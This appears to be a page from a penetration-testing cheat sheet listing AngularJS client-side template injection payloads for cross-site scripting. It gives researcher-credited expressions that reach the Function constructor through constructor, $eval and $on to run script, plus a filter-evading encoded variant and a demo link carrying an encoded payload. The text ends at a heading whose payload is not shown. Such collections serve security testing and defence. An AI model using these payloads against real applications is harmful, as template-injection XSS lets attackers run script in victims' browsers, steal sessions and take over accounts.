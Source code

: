 # XSS in Angular and AngularJS

## Client Side Template Injection

The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS - Simple alert in AngularJS

> AngularJS as of version 1.6 have removed the sandbox altogether

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript
{
  {
    constructor.constructor("alert(1)")();
  }
}
```

AngularJS 1.6+ by
[@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

Example available at
[https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 by
[@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) &
[@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript
{
  {
    (0)[(a = "constructor")][a]("alert(1)")();
  }
}
{
  {
    $eval.constructor("alert(1)")();
  }
}
{
  {
    $on.constructor("alert(1)")();
  }
}
```

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)
